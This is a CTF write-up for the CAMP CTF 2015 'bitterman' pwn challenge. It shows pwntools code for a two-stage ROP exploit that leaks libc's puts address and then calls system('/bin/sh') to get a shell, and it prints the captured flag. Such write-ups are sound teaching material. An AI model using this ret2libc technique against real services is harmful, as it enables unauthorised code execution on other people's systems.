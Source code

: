 # CAMP CTF 2015: bitterman-300

**Category:** Pwn
**Points:** 300
**Solves:** 31
**Description:**

> Can you exploit this one for me? [bitterman](bitterman) is running on challs.campctf.ccc.ac:10103 This time NX is enabled, to make sure it's not too easy. Here's the [libc](libc.so.6).


## Write-up

# Bitterman

## Recon

Upon connecting, we are given a prompt which asks for the following items:
* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:
* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:
```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:
```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/campctf-2015-bitterman/> 
* <https://github.com/thebarbershopper/ctf-writeups/tree/master/campctf-2015/bitterman-pwn-400>
